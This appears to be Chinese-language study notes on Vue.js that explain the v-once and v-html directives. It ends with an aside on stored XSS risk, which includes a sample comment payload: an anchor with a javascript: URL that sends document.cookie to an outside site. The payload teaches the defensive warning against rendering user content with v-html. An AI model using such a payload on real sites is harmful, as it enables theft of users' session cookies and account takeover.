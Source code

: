 ### 指令语法
- 往往用于解析标签属性(包括 标签属性 标签体内容 绑定事件)
- 指令语法一般定义在标签的属性里面

> v-once
- 该指令后面不需要跟任何表达式
- 该指令表示元素和组件只会渲染一次, 不会随着数据的改变而改变(不会因为改变 data 里面的数据, 响应到 dom 中)

- 应用场景:
- 在某些情况下, 我们可能不希望界面随意的跟随改变, 这个时候我们就可以使用这个指令

- v-once所在节点在初次动态渲染后 就视为静态内容了
- 以后数据的改变不会引起v-once所在结构的更新 可以用于优化性能

```js
  <h2 v-once>{{message}}</h2>
  // 后续修改message里面的值 页面中显示的还是第一次的值
```


> v-html
- 渲染文本到标签体中 如果文本中含有标签的时候 v-html会对标签进行解析
- 该指令后面往往会跟上一个 string 类型, 会将 string 的 html 解析出来并且进行渲染
```js
  <h2 v-html='message'></h2>    // 结果: 标题类型的hello

  data: {
    message:'<h1>hello</h1>',
  }
```

----------------

> 扩展: xss攻击
- v-html有安全性的问题
- 在网站上动态渲染任意html是非常危险的 容易导致xss攻击
**一定要在可信的内容上使用v-html 永远不要用在用户提交的内容上**

- 先铺垫两个知识点：
- 1. document.cookie
- 可以拿到当前网站上所有的cookie

- 2. <a href=javascript:location.href="坏人准备干坏事的网站">
- a标签内容还可以这么写代码


> 什么是xss攻击? 
- 我们在登录一个网站的时候 如果成功登录后 目标服务器会返回给客户端cookie存储在用户的浏览器里面

- 每一个网站发送过来的cookie都是以网站为单位存储的 该cookie就相当于用户在目标网站的身份证 有了cookie甚至可以免登录

- 假如我们弄丢了cookie 被别人拿到 那么这个人就可以导入我们的cookie伪装成我们免密登录目标网站

> 作案场景
- 比如 百度贴吧 我们用户可以发送留言 发送的留言都会保存在数据库中 然后程序员拿到数据后通过遍历 动态的渲染到页面结构里

- 假如 有坏人 以下面的方式 留言
```html
  <a href=javascript:location.href="http://www.baidu.com?document.cookie">有妞</a>
```
